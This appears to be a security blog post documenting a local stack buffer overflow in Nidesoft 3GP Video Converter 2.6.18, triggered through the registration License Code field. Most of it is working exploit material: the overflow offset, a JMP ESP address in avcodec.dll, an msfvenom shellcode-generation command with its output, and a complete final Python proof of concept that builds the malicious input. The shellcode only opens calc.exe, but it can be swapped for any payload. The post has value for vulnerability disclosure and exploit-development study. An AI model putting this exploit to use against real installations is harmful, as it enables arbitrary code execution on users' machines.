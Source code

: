 ```yaml
---
layout: post
title: Nidesoft 3GP Video Converter 2.6.18 - Local Stack Buffer Overflow
date: 2020-04-21 23:22:00
categories: posts
comments: false
en: true
---
```


 Nidesoft 3GP Video Converter 2.6.18 suffers from a Vanilla Stack Buffer Overflow when a long string is parsed through the parameter "License" within the Registration.
 
 Initial PoC:
 
 ```term
 import struct

buffer = "A" * 5000

f = open ("poc.txt", "w")
f.write(buffer)
f.close()
 ```
 
Once the exploit is run, the payload is copied into the clipboard.
In order to exploit the application, simply launch it, and the registration will appear. After such event is produced, simply paste the clipboard into the paramter "License Code", and click "OK" on the box that appears later on.

![](/assets/img/Findings12/1.png)

![](/assets/img/Findings12/3.png)


![](/assets/img/Findings12/4.png)

#### Crash I

![](/assets/img/Findings12/5.png)

After finding the pattern, which is 4592, we are off to find a JMP ESP address that is friendly towards the parameter of the application. Note that others instructions such as CALL ESP or PUSH ESP, RET can be used.

![](/assets/img/Findings12/6.png)

As seen on the image, there are several modules that could be from great help. However, the best to my view is avcodec.dll, as it has a friendly base address and most protections disabled.

Looking for a friendly JMP ESP address on avcodec.dll.

![](/assets/img/Findings12/7.png)

There are multiple addresses, I'll use 0x66C34867.

Current PoC:

```term
import struct

jmpesp = struct.pack("<I", 0x66C34867)

buffer = "A" * 4592 + jmpesp + "\xff" * 200

f = open ("poc.txt", "w")
f.write(buffer)
f.close()
```

#### Crash II

![](/assets/img/Findings12/8.png)

Good, execution was achieved as intended, due to the reason that the EIP stopped at the FF bytes.

#### Generating shellcode

```term
root@whitecr0wz:~# msfvenom -p windows/exec CMD=calc.exe -f py -e x86/alpha_mixed EXITFUNC=thread 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/alpha_mixed
x86/alpha_mixed succeeded with size 448 (iteration=0)
x86/alpha_mixed chosen with final size 448
Payload size: 448 bytes
Final size of py file: 2188 bytes
buf =  b""
buf += b"\x89\xe1\xd9\xf7\xd9\x71\xf4\x58\x50\x59\x49\x49\x49"
buf += b"\x49\x49\x49\x49\x49\x49\x49\x43\x43\x43\x43\x43\x43"
buf += b"\x37\x51\x5a\x6a\x41\x58\x50\x30\x41\x30\x41\x6b\x41"
buf += b"\x41\x51\x32\x41\x42\x32\x42\x42\x30\x42\x42\x41\x42"
buf += b"\x58\x50\x38\x41\x42\x75\x4a\x49\x79\x6c\x4d\x38\x6d"
buf += b"\x52\x47\x70\x63\x30\x55\x50\x53\x50\x4d\x59\x59\x75"
buf += b"\x56\x51\x4b\x70\x35\x34\x4e\x6b\x42\x70\x30\x30\x4c"
buf += b"\x4b\x43\x62\x66\x6c\x4c\x4b\x66\x32\x67\x64\x4e\x6b"
buf += b"\x34\x32\x45\x78\x46\x6f\x6e\x57\x63\x7a\x56\x46\x34"
buf += b"\x71\x39\x6f\x6e\x4c\x47\x4c\x73\x51\x73\x4c\x45\x52"
buf += b"\x36\x4c\x51\x30\x49\x51\x58\x4f\x66\x6d\x66\x61\x5a"
buf += b"\x67\x78\x62\x4a\x52\x56\x32\x63\x67\x6c\x4b\x51\x42"
buf += b"\x72\x30\x6e\x6b\x71\x5a\x47\x4c\x4c\x4b\x72\x6c\x74"
buf += b"\x51\x30\x78\x58\x63\x62\x68\x75\x51\x58\x51\x36\x31"
buf += b"\x4c\x4b\x33\x69\x65\x70\x56\x61\x6e\x33\x4e\x6b\x42"
buf += b"\x69\x42\x38\x69\x73\x45\x6a\x71\x59\x4c\x4b\x34\x74"
buf += b"\x6e\x6b\x36\x61\x6a\x76\x54\x71\x69\x6f\x6e\x4c\x59"
buf += b"\x51\x68\x4f\x64\x4d\x45\x51\x48\x47\x70\x38\x6b\x50"
buf += b"\x53\x45\x4b\x46\x47\x73\x33\x4d\x58\x78\x57\x4b\x33"
buf += b"\x4d\x71\x34\x32\x55\x39\x74\x52\x78\x6e\x6b\x73\x68"
buf += b"\x44\x64\x65\x51\x49\x43\x43\x56\x4c\x4b\x46\x6c\x70"
buf += b"\x4b\x6e\x6b\x50\x58\x67\x6c\x45\x51\x68\x53\x4c\x4b"
buf += b"\x44\x44\x6e\x6b\x57\x71\x4e\x30\x4e\x69\x51\x54\x74"
buf += b"\x64\x31\x34\x63\x6b\x33\x6b\x45\x31\x56\x39\x50\x5a"
buf += b"\x70\x51\x79\x6f\x79\x70\x61\x4f\x61\x4f\x63\x6a\x4c"
buf += b"\x4b\x37\x62\x6a\x4b\x4e\x6d\x51\x4d\x50\x6a\x43\x31"
buf += b"\x6c\x4d\x4f\x75\x68\x32\x75\x50\x53\x30\x75\x50\x56"
buf += b"\x30\x70\x68\x35\x61\x4e\x6b\x70\x6f\x4b\x37\x49\x6f"
buf += b"\x59\x45\x6d\x6b\x6b\x50\x65\x4d\x66\x4a\x64\x4a\x61"
buf += b"\x78\x49\x36\x6e\x75\x4f\x4d\x6f\x6d\x39\x6f\x59\x45"
buf += b"\x75\x6c\x55\x56\x33\x4c\x66\x6a\x4f\x70\x4b\x4b\x49"
buf += b"\x70\x42\x55\x54\x45\x6f\x4b\x57\x37\x37\x63\x51\x62"
buf += b"\x62\x4f\x50\x6a\x43\x30\x71\x43\x6b\x4f\x39\x45\x35"
buf += b"\x33\x71\x71\x42\x4c\x75\x33\x36\x4e\x65\x35\x62\x58"
buf += b"\x62\x45\x53\x30\x41\x41"
root@whitecr0wz:~# 
```

Final PoC:

```term
import struct

# msfvenom -p windows/exec CMD=calc.exe -f py -e x86/alpha_mixed EXITFUNC=thread 
# Payload size: 448 bytes

buf =  b""
buf += b"\x89\xe1\xd9\xf7\xd9\x71\xf4\x58\x50\x59\x49\x49\x49"
buf += b"\x49\x49\x49\x49\x49\x49\x49\x43\x43\x43\x43\x43\x43"
buf += b"\x37\x51\x5a\x6a\x41\x58\x50\x30\x41\x30\x41\x6b\x41"
buf += b"\x41\x51\x32\x41\x42\x32\x42\x42\x30\x42\x42\x41\x42"
buf += b"\x58\x50\x38\x41\x42\x75\x4a\x49\x79\x6c\x4d\x38\x6d"
buf += b"\x52\x47\x70\x63\x30\x55\x50\x53\x50\x4d\x59\x59\x75"
buf += b"\x56\x51\x4b\x70\x35\x34\x4e\x6b\x42\x70\x30\x30\x4c"
buf += b"\x4b\x43\x62\x66\x6c\x4c\x4b\x66\x32\x67\x64\x4e\x6b"
buf += b"\x34\x32\x45\x78\x46\x6f\x6e\x57\x63\x7a\x56\x46\x34"
buf += b"\x71\x39\x6f\x6e\x4c\x47\x4c\x73\x51\x73\x4c\x45\x52"
buf += b"\x36\x4c\x51\x30\x49\x51\x58\x4f\x66\x6d\x66\x61\x5a"
buf += b"\x67\x78\x62\x4a\x52\x56\x32\x63\x67\x6c\x4b\x51\x42"
buf += b"\x72\x30\x6e\x6b\x71\x5a\x47\x4c\x4c\x4b\x72\x6c\x74"
buf += b"\x51\x30\x78\x58\x63\x62\x68\x75\x51\x58\x51\x36\x31"
buf += b"\x4c\x4b\x33\x69\x65\x70\x56\x61\x6e\x33\x4e\x6b\x42"
buf += b"\x69\x42\x38\x69\x73\x45\x6a\x71\x59\x4c\x4b\x34\x74"
buf += b"\x6e\x6b\x36\x61\x6a\x76\x54\x71\x69\x6f\x6e\x4c\x59"
buf += b"\x51\x68\x4f\x64\x4d\x45\x51\x48\x47\x70\x38\x6b\x50"
buf += b"\x53\x45\x4b\x46\x47\x73\x33\x4d\x58\x78\x57\x4b\x33"
buf += b"\x4d\x71\x34\x32\x55\x39\x74\x52\x78\x6e\x6b\x73\x68"
buf += b"\x44\x64\x65\x51\x49\x43\x43\x56\x4c\x4b\x46\x6c\x70"
buf += b"\x4b\x6e\x6b\x50\x58\x67\x6c\x45\x51\x68\x53\x4c\x4b"
buf += b"\x44\x44\x6e\x6b\x57\x71\x4e\x30\x4e\x69\x51\x54\x74"
buf += b"\x64\x31\x34\x63\x6b\x33\x6b\x45\x31\x56\x39\x50\x5a"
buf += b"\x70\x51\x79\x6f\x79\x70\x61\x4f\x61\x4f\x63\x6a\x4c"
buf += b"\x4b\x37\x62\x6a\x4b\x4e\x6d\x51\x4d\x50\x6a\x43\x31"
buf += b"\x6c\x4d\x4f\x75\x68\x32\x75\x50\x53\x30\x75\x50\x56"
buf += b"\x30\x70\x68\x35\x61\x4e\x6b\x70\x6f\x4b\x37\x49\x6f"
buf += b"\x59\x45\x6d\x6b\x6b\x50\x65\x4d\x66\x4a\x64\x4a\x61"
buf += b"\x78\x49\x36\x6e\x75\x4f\x4d\x6f\x6d\x39\x6f\x59\x45"
buf += b"\x75\x6c\x55\x56\x33\x4c\x66\x6a\x4f\x70\x4b\x4b\x49"
buf += b"\x70\x42\x55\x54\x45\x6f\x4b\x57\x37\x37\x63\x51\x62"
buf += b"\x62\x4f\x50\x6a\x43\x30\x71\x43\x6b\x4f\x39\x45\x35"
buf += b"\x33\x71\x71\x42\x4c\x75\x33\x36\x4e\x65\x35\x62\x58"
buf += b"\x62\x45\x53\x30\x41\x41"

jmpesp = struct.pack("<I", 0x66C34867)

buffer = "A" * 4592 + jmpesp + "A" * 10 + buf + "\xff" * 200

f = open ("poc.txt", "w")
f.write(buffer)
f.close()
```

### EndGame

![](/assets/img/Findings12/9.gif)
